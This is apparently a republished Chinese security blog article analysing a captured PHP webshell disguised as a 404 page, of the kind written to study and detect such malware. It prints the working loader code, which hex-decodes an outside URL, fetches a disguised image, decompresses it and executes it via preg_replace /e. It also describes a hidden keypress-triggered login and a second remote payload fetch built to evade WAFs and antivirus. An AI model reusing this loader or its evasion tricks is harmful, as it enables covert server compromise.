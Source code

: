 # PHP后门新玩法：一款猥琐的PHP后门分析

0x00 背景
-------

* * *

近日，360网站卫士安全团队近期捕获一个基于PHP实现的webshell样本，其巧妙的代码动态生成方式，猥琐的自身页面伪装手法，让我们在分析这个样本的过程中感受到相当多的乐趣。接下来就让我们一同共赏这个奇葩的Webshell吧。

0x01 细节
-------

* * *

Webshell代码如下：

```
<?php
error_reporting(0);
session_start();
header("Content-type:text/html;charset=utf-8");if(empty($_SESSION['api']))
$_SESSION['api']=substr(file_get_contents(
sprintf('%s?%s',pack("H*",
'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())),3649);
@preg_replace("~(.*)~ies",gzuncompress($_SESSION['api']),null);
?>

```

关键看下面这句代码，

```
sprintf('%s?%s',pack("H*",'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())

```

这里执行之后其实是一张图片，解密出来的图片地址如下：

```
http://7shell.googlecode.com/svn/make.jpg?53280b00f1e85

```

然后调用file_get_contents函数读取图片为字符串，然后substr取3649字节之后的内容，再调用gzuncompress解压，得到真正的代码。最后调用preg_replace的修饰符e来执行恶意代码的。这里执行以下语句来还原出恶意样本代码，

```
<?php
echo gzuncompress(substr(file_get_contents(sprintf('%s?%s',pack("H*",
'687474703a2f2f377368656c6c2e676f6f676c65636f64652e636f6d2f73766e2f6d616b652e6a7067′),uniqid())),3649));
?>

```

如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/937cc591f7e4bea85d8342684835916ca14a5fdb.jpg)

分析这段代码，发现这是一个伪装的404木马(这里实在是太猥琐了…把页面标题改成404 Not Found)，其实整个webshell就一个class外加三个function，如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/96f0ab20d47b15a0305d0d9143afd3c1b89b17e6.jpg)

首先我先看一下它的前端html代码，其中有这么一段js程序

```
document.onkeydown = function(e) {
var theEvent = window.event || e;
var code = theEvent.keyCode || theEvent.which;
if (80 == code) {
$("login").style.display = "block"
}
}

```

这里它用document.onkeydown获取用户敲击键盘事件，当code等于80的时候显示login这个div，这里查询了一下keyCode的对照表，查到80对应p和P键

![enter image description here](http://drops.javaweb.org/uploads/images/b3a8390712dfe22bb69671f327765f5387c2e387.jpg)

所以触发webshell登陆需要按p键(不按P键页面就是一个空白页，看不到登陆框)，如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/4ded35659e720d714fc38eb71ace9e390ea7196d.jpg)

再回到服务端php代码中，可以看到程序用的是对称加密，并且将登陆密码作为加密key，代码如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/5acf6a309a0804514fdc9b48f41678b8f2bd57b0.jpg)

再看init()的逻辑

![enter image description here](http://drops.javaweb.org/uploads/images/786b35bb3b57d73dc5a56fed66c4af1d2d69855f.jpg)

如图所示，先看这句代码

```
$true = @gzuncompress(gzuncompress(Crypt::decrypt(pack('H*', '789c63ac0bbec7b494f12cdb02f6dfac3f833731cf093e163a892990793ebf0a9f1c6b18bb68983b3b47a022002a840c59′), $_POST['key'], true)));

```

根据这个解密逻辑我们可以推出，这里其实是将字符串true做了以下加密处理，

```
unpack('H*',Crypt::encrypt(gzcompress(gzcompress('true')), $_POST['key'] , true))

```

所以当输入正确密码的时候@gzuncompress返回字符串true，然后程序调用setcookie给客户端返回$_COOKIE['key']，然后值得提一下的是后面这个`exit('{"status":"on"}')`，这里它与前端代码联系很紧密，我们看前端有个callback函数，如下

```
function callback() {
var json = eval("(" + this.responseText + ")");
if (json.status=='on'){
window.location.reload();
return;
}
if (json.notice) {
$("notice").style.display = "block";
$("notice").innerHTML = json.notice;
sideOut();
}
}

```

这里执行`exit('{"status":"on"}')`会返回json串`{"status":"on"}`，此时前端js代码classback()获取到此响应会执行window.location.reload()刷新，再次请求正好带上前面获取的cookie，然后执行判断COOKIE的逻辑，如图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/b25d46507712b3652ff3fbbd9be987a764f8d5a2.jpg)

这里跟前面POST的逻辑一样，下面当判断为'true'以后，这里又请求了一张图片，pack出来地址为`http://2012heike.googlecode.com/svn/trunk/code.jpg`，然后调用_REQUEST获取图片内容，解密解压之后再eval，分析之后发现code.jpg中才是真正的webshell经过加密压缩之后的内容。这里我跟踪了一下代码打印出了真正执行的webshell的内容：

![enter image description here](http://drops.javaweb.org/uploads/images/ad9a83d159a037892fea2d24e3f2be7ac5bafb4f.jpg)

登陆成功之后的webshell如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/3f2e4379b6916dadf0fda5089c05ab62de641a13.jpg)

0x02 总结
-------

* * *

这是一个高度隐蔽的webshell，它没有在其代码中用到一些危险函数和敏感字，而是将真正的shell内容经过层层加密处理之后保存到图片当中，丢到服务器上只留下一个url，并且url还是经过加密处理的，所以对外看没有任何特征可寻，过掉了大多数waf以及杀软的查杀。。作者的利用思路新颖，并且前端后端结合紧密，代码精简，各种奇技淫巧，有别于常见的webshell后门，令人佩服！

from:[http://blog.wangzhan.360.cn/?p=65](http://blog.wangzhan.360.cn/?p=65)